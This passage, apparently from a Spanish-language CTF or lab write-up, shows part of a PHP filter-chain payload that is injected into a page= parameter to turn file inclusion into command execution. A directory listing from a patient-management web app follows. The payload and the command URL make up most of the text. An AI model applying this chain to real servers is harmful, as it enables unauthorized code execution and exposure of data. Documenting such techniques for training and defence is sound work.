 ```
t.iconv.UCS-4LE.OSF05010001|convert.iconv.IBM912.UTF-16LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP869.UTF-32|convert.iconv.MACUK.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.BIG5HKSCS.UTF16|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF16|convert.iconv.ISO6937.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF32|convert.iconv.L6.UCS-2|convert.iconv.UTF-16LE.T.61-8BIT|convert.iconv.865.UCS-4LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSIBM1161.UNICODE|convert.iconv.ISO-IR-156.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=php://temp
```

Copiamos eso y lo metemos despues del igual de la siguiente manera...

```
URL = http://<IP>/?cmd=ls -la&page=<CONTENT_GENERATE>
```

Info:

```
total 172
drwxr-xr-x 1 www-data www-data  4096 Sep 20 09:26 .
drwxr-xr-x 1 root     root      4096 Sep 20 09:08 ..
-rw-rw-r-- 1 www-data www-data  1945 Sep 19 10:12 DBConnection.php
-rw-rw-r-- 1 www-data www-data  9840 Sep 18 14:31 LoginRegistration.php
-rw-rw-r-- 1 www-data www-data  9527 Sep 19 10:30 Master.php
-rw-rw-r-- 1 www-data www-data     0 Apr 11  2023 article.html
-rw-rw-r-- 1 www-data www-data   748 Mar 23  2023 auth.php
drwxr-xr-x 2 www-data www-data  4096 Sep 20 09:21 backup
drwxrwxr-x 1 www-data www-data  4096 Apr 11  2023 css
drwxr-xr-x 1 www-data www-data  4096 Sep 20 09:15 db
-rw-rw-r-- 1 www-data www-data  1671 Apr 14  2023 home.php
-rw-rw-r-- 1 www-data www-data 11156 Apr 14  2023 index.php
drwxrwxr-x 1 www-data www-data  4096 Apr 11  2023 js
-rw-rw-r-- 1 www-data www-data  4418 Apr 14  2023 login.php
-rw-rw-r-- 1 www-data www-data  5931 Apr 14  2023 manage_patient.php
-rw-rw-r-- 1 www-data www-data  4735 Apr 12  2023 manage_user.php
-rw-rw-r-- 1 www-data www-data  7122 Sep 19 10:29 patient_side.php
-rw-rw-r-- 1 www-data www-data 11759 Sep 19 10:30 patients.php
-rw-rw-r-- 1 www-data www-data  5708 Apr 14  2023 queueing.php
-rw-rw-r-- 1 www-data www-data  4549 Mar 23  2023 registration.php
-rw-rw-r-- 1 www-data www-data  8147 Sep 19 10:31 reports.php
-rw-rw-r-- 1 www-data www-data  3575 Apr 11  2023 update_account.php
-rw-rw-r-- 1 www-data www-data  4790 Apr 12  2023 users.php
-rw-rw-r-- 1 www-data www-data  5526 Sep 19 10:34 view_patient.php
�
P�����
```
